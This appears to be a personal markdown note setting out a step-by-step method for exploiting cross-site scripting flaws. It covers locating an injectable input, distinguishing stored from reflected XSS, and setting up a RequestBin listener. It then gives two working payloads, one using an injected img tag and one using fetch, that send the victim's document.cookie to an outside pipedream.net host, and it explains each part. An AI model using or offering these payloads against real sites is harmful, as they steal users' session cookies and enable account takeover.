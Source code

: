 Here will be my way of work for [[XSS]] vulns

# Step 1 : Found it
The first step is to find the XSS flaw.
I mean find the website and the right input to use.

---
# Step 2 : Recognise the type

## Step 2 : Stored XSS
the step 2 consist on knowing which type of xss flaw we are working on.
We can test it by storing something and trying to acces it from another way

## Step 2 : Reflective XSS
{{In progress}}

---
# Step 3 : JS script

## Step 3 : Setup the server
Here we gonna enter in the hard thing, we want datas !
to get some data we can use a script which will call a domain that we are listening on & send the client data.

For doing that we first need to setup the listening server.
A real good website for this is [RequestBin](https://pipedream.com/requestbin) .

## Step 3 : Find a way to call our server
Now that we have our listening server, we just need to find a way to call our server.
There is many ways to call an url in js, we can use images or even fetch or even XMLHttpRequest.

### Step 3 : Use an image
Here is the script to send a request via an image : 
`<script>document.write('<img src="https://eolyqf07jmav0tu.m.pipedream.net/?c='+document.cookie+'" />');</script>`
	document.write = write an element on the webclient
	img  src= add an image and put the src to our server instead of an image link
	 +document.cookie = add the cookies of the page where is executed the script

So with this script we can get the cookies of the client who load the script we stored in an img in the db

### Step 3 : fetch the server
Here is the script to send a request via fetch function : 
`<script>fetch('https://eolyqf07jmav0tu.m.pipedream.net', {method: 'POST', mode: 'no-cors', body:document.cookie });</script>`
	fetch = use the function fetch
	url = put the server url
	{} = put inside the method & differents header
	body = document.cookie = add the cookie of the page where is executed the script in the body of the request

So with this script we can get the cookie of the client who load the script we stored in the db